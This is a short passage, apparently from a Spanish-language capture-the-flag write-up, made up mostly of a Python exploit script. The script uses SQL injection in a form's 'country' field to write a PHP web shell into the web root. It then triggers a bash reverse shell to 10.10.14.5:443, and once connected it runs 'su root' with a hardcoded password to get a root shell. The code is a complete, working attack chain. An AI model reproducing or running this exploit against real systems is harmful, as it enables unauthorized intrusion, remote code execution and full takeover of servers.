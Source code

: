 ```python
main_url = "http://%s/" % ip_victima

def createFile():

    datapost = {
        'username' : 'test',
        'country':"""Brazil' union select "<?php system($_GET['cmd']) ?>" into outfile "/var/www/html/%s"-- -""" % filename

    }

    r = requests.post(main_url, data=datapost)

def getAccess():

    main_url = f"http://{ip_victima}/{filename}?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'"

    r = requests.get(main_url)

if __name__ == '__main__':

    createFile()

    try:    
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.failure(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("su root")
    time.sleep(2)
    shell.sendline("uhc-9qual-global-pw") 
    shell.interactive()
```

Explicación del cambio:

Antes de enviarnos la shell, hacemos que el programa ejecute un su root y que introduzca la credencial, luego de ello si que nos envía la shell.


